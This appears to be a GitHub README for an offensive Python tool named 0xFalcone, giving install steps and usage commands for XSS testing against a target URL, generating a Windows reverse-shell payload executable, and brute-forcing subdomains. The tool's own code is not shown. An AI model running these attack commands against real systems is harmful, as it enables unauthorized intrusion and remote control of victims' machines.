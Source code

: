 # 0xFalcone
<h3>Installation</h3>
 Install 0xFalcone Tool:
<hr>

```apt install git```

``` git clone https://github.com/hassanalharbi123/0xFalcon ```

``` cd 0xFlacon ```

``` python3 install.py ```
<hr>

<h3>Usage</h3>

``` python3 exploit.py -h ```

![image](https://user-images.githubusercontent.com/76629405/147748640-229c15f4-51ca-42b6-b4b7-343a96b84785.png)

 Example XSS Tool: ``` python3 exploit.py -u xss -T http://example.com -L list.txt -m GET -n username ```
 
 Windows Reverse Shell: ``` python3 exploit.py -u shell -y exe -I 127.0.0.1 -P 1111 -F payloadexe  ```
 
 ![image](https://user-images.githubusercontent.com/76629405/147749039-ac562649-0096-4e82-a004-5071f8e8384f.png)
 
 Subdomains Brute Force: ``` python3 exploit.py -u subdomain -T http://example.com -L list.txt ```
